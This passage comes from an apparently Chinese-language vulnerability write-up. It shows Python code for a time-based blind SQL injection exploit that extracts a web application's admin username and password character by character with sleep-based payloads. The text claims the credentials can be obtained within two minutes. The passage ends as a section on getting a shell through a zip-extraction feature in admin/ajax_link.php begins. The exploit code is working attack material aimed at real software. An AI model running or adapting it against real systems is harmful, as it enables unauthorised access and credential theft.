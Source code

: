 ```plain
            break
        if length > 9999:
            print("[-] No Vuln")
            exit(-1)
    print(f"[+] Success, Secret Length: {length}")
    user_and_pwd = ""
    secret_payload = "ord(substring(({origin_payload}), {start}, 1))"
    for index in range(1, length + 1):
        for char in fuzz_string:
            _secret_payload = secret_payload.format(origin_payload=origin_payload, start=index)
            final_secret_payload = f"0'>if({_secret_payload}={ord(char)},sleep({timeout})&exp(999),exp(999))>'"
            # print(f"[*] Tring Secret Char: {char}")
            r2 = post(target, cookie, authcode, final_secret_payload)
            if r2.elapsed.total_seconds() > timeout-1:
                user_and_pwd += char
                break
            if fuzz_string.find(char) == (len(fuzz_string) - 1):
                print("[-] Error, Fuzz string is not in correct strings!!!")
                exit(-1)
        print(f"[+] Secret: {user_and_pwd}")
    return user_and_pwd
```

网络情况好的话，可以在两分钟内拿到后台的账号和密码

[![](assets/1701222538-a1bfbfe2c9c6887f1843534647c85b21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135414-6540710a-8ce9-1.png)

## 解压无文件 GetShell

  浏览后台目录的文件时，有一个解压zip的操作成功吸引我的注意，漏洞文件位于: `admin/ajax_link.php`
